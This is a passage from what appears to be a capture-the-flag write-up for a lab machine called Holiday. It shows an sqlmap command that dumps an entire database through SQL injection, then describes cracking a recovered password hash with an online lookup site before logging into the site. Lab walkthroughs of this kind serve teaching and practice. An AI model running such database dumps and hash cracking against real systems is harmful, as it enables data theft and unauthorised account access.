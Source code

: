 ```sh
sqlmap -r sqlmapholiday.req --level=5 --risk=3 --dump-all
```


![](/Linux/Linux-Hard/Holiday/Screenshots/sqlmap.png)

The hash can be easily looked up online. In this case, [crackstation ](https://crackstation.net/) will find the hash. the hash `fdc8cd4cff2c19e0d1022e78481ddf36`

![](/Linux/Linux-Hard/Holiday/Screenshots/crackstation.png)

now we log into the website 
